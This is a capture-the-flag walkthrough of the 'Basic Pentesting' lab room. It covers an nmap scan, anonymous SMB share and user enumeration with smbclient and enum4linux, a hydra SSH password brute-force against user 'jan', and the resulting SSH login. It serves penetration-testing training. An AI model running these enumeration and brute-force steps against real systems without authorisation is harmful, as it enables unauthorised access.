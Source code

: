 
# Basic Pentesting

![image](https://user-images.githubusercontent.com/75846902/170802363-9f141e65-87b0-46ec-bfc5-caa1cbbaefb7.png)

![image](https://user-images.githubusercontent.com/75846902/170802395-b07efe05-81ee-4e99-b947-134df5c4ffdc.png)

![image](https://user-images.githubusercontent.com/75846902/170802454-94260b08-e158-49c4-95d6-b5de3790a2fe.png)

```
Nmap scan report for 10.10.113.191
Host is up (0.29s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=5/28%OT=22%CT=1%CU=32209%PV=Y%DS=2%DC=T%G=Y%TM=62916C6
OS:C%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=10A%TI=Z%CI=I%II=I%TS=8)SEQ
OS:(SP=108%GCD=1%ISR=10A%TI=Z%II=I%TS=8)OPS(O1=M505ST11NW6%O2=M505ST11NW6%O
OS:3=M505NNT11NW6%O4=M505ST11NW6%O5=M505ST11NW6%O6=M505ST11)WIN(W1=68DF%W2=
OS:68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M505NNSN
OS:W6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 1h20m12s, deviation: 2h18m34s, median: 11s
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2022-05-28T00:27:26
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2022-05-27T20:27:26-04:00

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   254.73 ms 10.8.0.1
2   289.67 ms 10.10.113.191

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.21 seconds
```

port:80

![image](https://user-images.githubusercontent.com/75846902/170802542-6313f727-51c5-4a1a-8b61-79824ae601e0.png)

directory fuzzing

![image](https://user-images.githubusercontent.com/75846902/170802635-1ee0f67f-99bc-4c38-aece-64080d8095c5.png)

ah oh Found one

![image](https://user-images.githubusercontent.com/75846902/170802660-5fe7c6dd-6b98-474b-88d0-ff778051e7b9.png)

![image](https://user-images.githubusercontent.com/75846902/170802691-a49bab5a-4c15-4ca5-8923-0b5c11d33ffe.png)

![image](https://user-images.githubusercontent.com/75846902/170802713-5642d4b6-a1ad-421d-9e8e-b69b10d868df.png)

![image](https://user-images.githubusercontent.com/75846902/170802726-74e442b3-8bc4-4d20-8670-f720dd328827.png)

```
->$ smbclient -L //10.10.113.191/
Enter WORKGROUP\m4ch4rd's password: 

	Sharename       Type      Comment
	---------       ----      -------
	Anonymous       Disk      
	IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)
Reconnecting with SMB1 for workgroup listing.

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            BASIC2
```

```
->$ smbclient //10.10.113.191/Anonymous
Enter WORKGROUP\m4ch4rd's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Apr 20 02:31:20 2018
  ..                                  D        0  Fri Apr 20 02:13:06 2018
  staff.txt                           N      173  Fri Apr 20 02:29:55 2018

		14318640 blocks of size 1024. 11094264 blocks available
smb: \> 

```

```
smb: \> get staff.txt 
getting file \staff.txt of size 173 as staff.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \> 
```

```
->$ cat staff.txt 
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay

```

```
enum4linux 10.10.113.191
```
```
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
 =======================================( Users on 10.10.113.191 )=======================================
 ==================( Users on 10.10.113.191 via RID cycling (RIDS: 500-550,1000-1050) )==================
S-1-5-21-2853212168-2008227510-3551253869-501 BASIC2\nobody (Local User)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.113.191
```
![image](https://user-images.githubusercontent.com/75846902/170803674-0b1a9988-4f3a-47a4-916b-0c02acba54c1.png)


```
->$ ssh jan@10.10.113.191
The authenticity of host '10.10.113.191 (10.10.113.191)' can't be established.
ED25519 key fingerprint is SHA256:XKjDkLKocbzjCch0Tpriw1PeLPuzDufTGZa4xMDA+o4.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:32: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.113.191' (ED25519) to the list of known hosts.
jan@10.10.113.191's password: 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Mon Apr 23 15:55:45 2018 from 192.168.56.102
jan@basic2:~$ 

```







